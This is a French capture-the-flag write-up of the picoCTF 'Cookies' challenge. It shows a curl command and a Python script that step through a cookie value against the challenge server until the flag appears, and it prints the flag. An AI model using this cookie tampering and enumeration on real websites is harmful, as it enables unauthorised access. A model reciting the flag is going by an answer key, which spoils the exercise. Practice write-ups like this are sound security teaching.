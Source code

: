 # Cookies

## 0x1 Description

>Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:17781/

## 0x2 Analyse

Encore une fois, la description est très explicite, nous allons devoir jouer avec les cookies et il y en aura surement un meilleur que les autres

Après avoir entré le nom du premier biscuit qu'ils nous propose, nous avons la structure du cookie qui nous est donnée:

![Cookie's structure](./IMG/cookie.png)

Pas besoin d'être un génie pour comprendre qu'il va falloir incrémenter la valeur contenue dans **name**

## 0x3 Résolution avec cURL

Le principe est de faire une petite boucle qui va incrémenter la valeur et appeler la vérification avec cette donnée.

Ce qui donne après quelques itérations le résultat suivant:

>curl --cookie "name=18" http://mercury.picoctf.net:17781/check
>
>flag = picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}

## 0x4 Vérification avec Cookie Quick Manager

Avec n'importe quel éditeur de cookie, vous pouvez le modifier et une fois la page rechargée voir apparaitre la solution:

![flag](./IMG/flag.png)

## 0x5 Résolution avec un script en python

Comme expliqué , nous allons faire une boucle qui testera toutes les possibilité de cookie, pour ce faire, voici le code que j'ai écrit:

```python
#!/usr/bin/env python

import pwn
import requests
import re

regex = "picoCTF{.*?}"
url = "http://mercury.picoctf.net:17781/check"
s = requests.Session()
boucle = True

def Exploit():
    pwn.info("Searching for the flag")
    while boucle:
        for miaou in range (0,100):
            if miaou % 5 == 0:
                if miaou > 0:
                    pwn.info("{} iterations".format(miaou))
                else:
                    pwn.info("{} iteration".format(miaou))
            cookies = {'name': str(miaou)}
            req = s.get(url, cookies=cookies)
            req = req.content
            result = re.findall(regex, str(req))
            flag = result
            if result:
                for f in flag:
                    pwn.warn("After {} iterations".format(miaou))
                    pwn.warn("Cookie was: {}".format(cookies))
                    pwn.success("Flag is: {}".format(f))
                    break
                return

if __name__ == "__main__":
    Exploit()
```
